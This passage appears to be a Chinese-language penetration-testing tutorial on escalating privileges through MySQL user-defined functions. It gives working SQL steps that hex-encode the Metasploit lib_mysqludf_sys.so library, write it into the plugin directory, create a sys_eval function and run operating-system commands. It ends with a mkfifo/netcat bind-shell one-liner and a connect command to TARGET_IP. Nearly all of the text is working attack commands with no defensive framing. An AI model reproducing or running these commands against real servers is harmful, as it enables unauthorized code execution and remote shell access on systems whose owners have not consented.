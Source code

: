 
plugin值表示mysql用户的认证方式。当 plugin 的值为空时不可提权，为 `mysql_native_password` 时可通过账户连接提权。默认为`mysql_native_password`。另外，mysql用户还需对此plugin目录具有写权限。

## 4.  上传udf库文件

1. 获取plugin路径

```text
mysql> show variables like "%plugin%";
```

## 5.  获取服务器版本信息

```text
mysql> show variables like 'version_compile_%';
```

## 6. metasploit 文件

/usr/share/metasploit-framework/data/exploits/mysql

## 7. 找到匹配文件
然后在数据库中转成16进制
```
select hex(load_file('lib_mysqludf_sys.so文件存在的位置')) into outfile '需要保存到的位置/udf.txt';
```


## 8. 上传16进制的文件到数据库
```
select unhex('你的十六进制文本') into dumpfile '/usr/lib/mysqludf.so';
```

## 9.选择数据库添加函数

```
create function sys_eval returns string soname "mysqludf.so";
```

## 10. 调用函数 实验是否成功

```
select sys_eval('whoami');
```

# 绑定shell

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f

nc -nv TARGET_IP 8080
```
